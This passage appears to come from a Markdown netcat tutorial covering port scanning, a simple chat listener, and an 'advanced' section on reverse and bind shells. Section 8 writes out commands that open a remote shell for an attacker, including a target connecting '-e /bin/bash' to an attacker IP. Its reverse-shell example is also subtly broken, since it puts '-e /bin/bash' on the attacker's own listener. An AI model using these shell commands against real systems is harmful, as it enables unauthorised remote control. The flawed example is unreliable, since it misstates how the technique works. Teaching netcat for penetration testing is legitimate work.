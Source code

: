 
## **6. Port Scanning with Netcat**
Netcat can function as a simple **port scanner**.

```sh
nc -zv 192.168.1.1 20-100
```
- Scans ports **20 to 100** on `192.168.1.1`.  

For a **UDP scan**, use:  
```sh
nc -zvu 192.168.1.1 53
```
- The `-u` flag enables **UDP mode** (useful for DNS and other UDP services).  

---

## **7. Creating a Simple Chat System with Netcat**
### **7.1. Start a Chat Server**
On one machine, start a listener:  
```sh
nc -l 5000
```
### **7.2. Connect from Another Machine**
```sh
nc <server-ip> 5000
```
- Now, both systems can **send and receive messages**.  

---

## **8. Reverse Shells and Bind Shells (Advanced)**
Netcat can be used to establish a **remote shell**, often used in debugging or penetration testing.  

### **8.1. Reverse Shell (Attacker Gets Access)**
On the **attacker's machine** (waiting for a connection):  
```sh
nc -l 4444 -e /bin/bash
```
On the **target machine** (initiating the connection):  
```sh
nc 192.168.1.2 4444 -e /bin/bash
```
- This gives **remote shell access** to the attacker.  

### **8.2. Bind Shell (Victim Opens a Shell)**
On the **target machine** (listening for a connection):  
```sh
nc -l 4444 -e /bin/bash
```
On the **attacker's machine**:  
```sh
nc 192.168.1.10 4444
```
- The attacker now has remote control of the target system.  

